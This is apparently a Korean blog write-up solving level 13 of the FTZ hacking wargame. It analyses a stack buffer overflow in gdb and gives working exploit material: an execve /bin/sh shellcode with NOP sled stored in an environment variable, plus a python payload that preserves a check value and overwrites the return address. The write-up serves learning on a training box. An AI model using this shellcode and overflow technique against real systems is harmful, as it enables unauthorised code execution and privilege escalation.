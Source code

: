 ```yaml
---
title:  "[FTZ] level 13"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-18 00:14:59

---
```


# level 13

**level13 / have no clue**

힌트

![image](https://user-images.githubusercontent.com/69203345/146544043-462d8911-ca49-4a67-b3c4-314b640bcaae.png)

생긴걸 보아하니 이전 문제처럼 bof이용 해주면 될듯  
그래도 급하게 할 필요 없기 때문에 코드부터 봅시다

i가 buf보다 먼저 선언됐으므로 i의 시작주소가 buf보다 높다.

4바이트 정수형 변수 i에 0x1234567을 저장  
문자형 buf에는 1024사이즈 할당  0x1234567을 할당  
3094는 level13의 PID  
argv에 할당받은 입력이 한개를 넘으면 if수행  
argv[1] 을 buf에 복사

변수 i값이 아니라면 if수행  
print 수행후 프로그램 종료  

/tmp 폴더로 복사해서 gdb로 열기

![image](https://user-images.githubusercontent.com/69203345/146546755-d6a68c12-7746-4569-88f6-b812816bfe54.png)

올게 왔다

0x080484a3 <main+3>:    sub    esp,0x418

0x418을 10진수로 바꾸게 되면 1048이 나오고  
stack에 1048byte의 영역을 할당

0x080484a9 <main+9>:    mov    DWORD PTR [ebp-12], 0x1234567

i의 시작위치 = ebp -12
i에게 12바이트를 할당 했는데 i는 long형태로 4바이트만 차지하고,나머지 8바이트는 dummy

0x080484b0 <main+16>:   sub    esp,0x8

스택에 총 8byte를 할당합니다. 이번문장은 dummy를 의미함

0x080484dd <main+61>:   call   0x8048390  <strcpy>

buf의 시작 위치는 ebp - 1048입니다

낮은주소

buf[1024] [ebp-1048]
dummy[12]
i[4] [ebp-12]
dummy[8]
sfp[4]
ret[4]

높은주소

buf의 주소는 ebp-1048이고  
i의 주소는 ebp-12이므로  
1048에서 1024를 채운후 i(ebp-12)와의 빈 공간은 dummy(12)로 한다


>참고  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.

그러면 buf[1024] 와 dummy[12]를 A로 채워주고, i를 01234567로 채워주고, dummy[8]과 SFP[4]를 다시 A로 채워주고 리턴주소를 덮어주면 될 것 같습니다.
 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"RETN"'`

 이 될것이다

 이제 그럼 환경변수를 등록
 > export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

>echo 'int main(){printf("ADDR->0x%x\n",getenv("EGG"));}'> getenv.c

 ./getenv를 실행시켰을 때 나오는 ADDR이 페이로드를 구성할 때 return 부분에 들어가는 주소

 ![image](https://user-images.githubusercontent.com/69203345/146562331-92c66527-4c2f-4df1-b9c0-7fac299c986a.png)

 주소는 0xbffffc9a  
 따라서

 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"\x9a\xfc\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146564363-3aea097f-89e4-4245-b611-4314f8c32272.png)

 풀면 풀수록 감이 온다..!